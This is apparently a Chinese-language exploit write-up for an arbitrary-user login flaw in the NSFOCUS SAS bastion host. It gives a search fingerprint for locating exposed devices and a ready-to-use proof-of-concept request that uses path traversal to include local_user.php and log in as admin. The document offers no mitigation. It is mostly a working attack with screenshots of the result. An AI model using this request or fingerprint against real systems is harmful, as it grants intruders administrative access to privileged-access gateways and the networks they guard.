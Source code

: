 # 绿盟 SAS堡垒机 local_user.php 任意用户登录漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

绿盟 SAS堡垒机

## 网络测绘

body="'/needUsbkey.php?username='"

## 漏洞复现

登陆页面

![image-20230810162438206](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230810163302640-1372323776.png)

验证POC

```plain
/api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin
```

![image-20230810162350266](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230810163306280-1868187155.png)